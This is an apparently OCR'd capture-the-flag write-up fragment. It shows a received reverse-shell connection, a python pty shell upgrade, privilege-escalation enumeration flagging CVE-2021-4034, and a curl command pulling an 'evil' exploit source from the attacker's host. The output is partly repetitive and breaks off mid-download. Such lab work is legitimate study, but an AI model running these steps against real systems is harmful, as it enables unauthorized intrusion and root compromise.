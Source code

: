 ```
whoami                                                                                                                                                                                                                                      
ls                                                                                                                                                                                                                                          
ls                                                                                                                                                                                                                                          
ls                                                                                                                                                                                                                                          
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.125] 38176                                                                                                                                                                               
binary.elf
revshell.elf
user.txt
user
binary.elf
revshell.elf
user.txt
binary.elf
revshell.elf
user.txt
binary.elf
revshell.elf
user.txt
ls

/usr/bin/python3 -c 'import pty; pty.spawn("/bin/sh")'
```
# Privesc enumeration
```
root         809  0.0  0.0   2608  1652 ?        Ss   11:47   0:14      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done

╔══════════╣ Sudo version                                                                                                                                                                                                                   
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                                                                                                                                  
Sudo version 1.8.31                                                                                                                                                                                                                         
                                                                                                                                                                                                                                            
Vulnerable to CVE-2021-4034 
```
# Privesc
```
$ curl http://10.10.14.231:8000/evil-so-.c -o evil-so.c                                                                                                                                                                                     
curl http://10.10.14.231:8000/evil-so-.c -o evil-so.c                                                                                                                                                                                       
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
```